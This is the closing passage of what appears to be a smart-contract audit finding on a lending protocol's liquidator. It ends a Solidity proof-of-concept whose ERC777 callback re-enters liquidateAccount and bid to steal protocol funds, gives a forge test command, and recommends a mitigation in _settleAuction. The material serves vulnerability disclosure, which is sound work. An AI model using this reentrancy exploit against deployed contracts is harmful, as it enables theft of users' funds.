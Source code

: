         constructor(address _liquidator, address _account) {
            liquidator = ILiquidator(_liquidator);
            account = _account;
        }  
    
    		 /// @notice ERC777 callback function
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external {
            // Only trigger the callback once (avoid triggering it while receiving funds in the setup + when receiving final funds)
            if(triggered == 1) {
                triggered = 2;
                liquidator.liquidateAccount(account);
                uint256[] memory askedAssetAmounts = new uint256[](1);
                askedAssetAmounts[0] = 1; // only ask for 1 wei of token so that we repay a small share of the debt
                liquidator.bid(account, askedAssetAmounts, true);
            }
    				unchecked{
    	        triggered++;
    				}
        }
    
        function executeAction(bytes calldata actionTargetData) external returns (ActionData memory) {
            ActionData memory data;
            return data;
        }
    
    }
    ```
    
6. Execute the proof of concept with the following command (being inside the `lending-v2` folder): `forge test --mt testVuln_reentrancyInFlashActionEnablesStealingAllProtocolFunds`

### Recommended Mitigation

This attack is possible because the `getCollateralValue()` function returns a 0 collateral value due to the `minUsdValue` mentioned before not being reached after executing the bid. The Liquidator’s `_settleAuction()` function then believes the collateral held in the account is 0.

In order to mitigate the issue, consider fetching the actual real collateral value inside `_settleAuction()` even if it is less than the `minUsdValue` held in the account, so that the function can properly check if the full collateral was sold or not.

```solidity
// Liquidator.sol
function _settleAuction(address account, AuctionInformation storage auctionInformation_)
        internal
        returns (bool success)
    {
        ...

        uint256 collateralValue = IAccount(account).getCollateralValue(); // <----- Fetch the REAL collateral value instead of reducing it to 0 if `minUsdValue` is not reached
        
 
        ...
    }
```
